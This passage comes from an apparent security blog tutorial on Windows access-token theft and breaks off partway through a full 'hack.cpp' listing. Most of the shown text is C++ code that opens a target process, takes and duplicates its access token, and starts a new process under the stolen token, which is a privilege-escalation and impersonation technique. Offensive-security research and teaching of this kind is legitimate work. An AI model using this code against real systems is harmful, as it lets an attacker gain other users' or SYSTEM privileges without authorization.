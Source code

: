 Then, open a process whose access token you wish to steal and obtain a handle to that process's access token:     

```cpp
// get access token
HANDLE getToken(DWORD pid) {
  HANDLE cToken = NULL;
  HANDLE ph = NULL;
  if (pid == 0) {
    ph = GetCurrentProcess();
  } else {
    ph = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, true, pid);
  }
  if (!ph) cToken = (HANDLE)NULL;
  printf(ph ? "successfully get process handle :)\n" : "failed to get process handle :(\n");
  BOOL res = OpenProcessToken(ph, MAXIMUM_ALLOWED, &cToken);
  if (!res) cToken = (HANDLE)NULL;
  printf((cToken != (HANDLE)NULL) ? "successfully get access token :)\n" : "failed to get access token :(\n");
  return cToken;
}
```

Make a duplicate of the access token present in that process:     

```cpp
//...
res = DuplicateTokenEx(token, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokenPrimary, &dToken);
//...
```

Finally, with the newly acquired access token, initiate a new process:     

```cpp
//...
STARTUPINFOW si;
PROCESS_INFORMATION pi;
BOOL res = TRUE;
ZeroMemory(&si, sizeof(STARTUPINFOW));
ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
si.cb = sizeof(STARTUPINFOW);
//...
res = CreateProcessWithTokenW(dToken, LOGON_WITH_PROFILE, app, NULL, 0, NULL, NULL, &si, &pi);
//...
```

So, the full source code of this logic is look like this:       

```cpp
/*
hack.cpp
token theft
enable set of priv
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/25/token-theft-1.html
*/
#include <windows.h>
#include <stdio.h>
#include <iostream>

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
```